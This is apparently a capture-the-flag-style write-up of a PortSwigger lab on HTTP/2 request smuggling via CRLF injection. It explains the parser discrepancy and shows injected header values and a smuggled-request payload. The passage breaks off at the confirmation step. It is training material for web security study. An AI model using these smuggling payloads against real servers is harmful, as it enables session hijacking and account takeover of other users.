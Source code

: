 ### Request smuggling via CRLF injection
Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the content-length or stripping any transfer-encoding headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (\n) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.
```bash
Foo: bar\nTransfer-Encoding: chunked
```

This discrepancy doesn't exist with the handling of a full CRLF (\r\n) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that \r\n no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split:
```bash
foo bar\r\nTransfer-Encoding: chunked
```

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the \r\n will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:
```bash
Foo: bar
Transfer-Encoding: chunked
```

### PRACTITIONER Lab: HTTP/2 request smuggling via CRLF injection
Lab's description:
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the [documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them. 

> Hint:
>
> To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the Shift + Return keys. Note that this feature is not available when you double-click on the header. 

Solution:
In this lab the front-end server is stripping away the `Transfer-encoding` header during rewrite to http 1.1
But the frontend does not strip away CRLF during rewrite

So we first need to confirm the H2.TE vulnerability
Our attack req:
```bash
POST / HTTP/2
Host: 0ae000d703ab28f1810953e500ce003d.web-security-academy.net
Cookie: session=lF2n6WnawFtqt7IrLoDsdCXBoBZh4ojp
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /doesnotexist HTTP/1.1
X-Ignore: x
```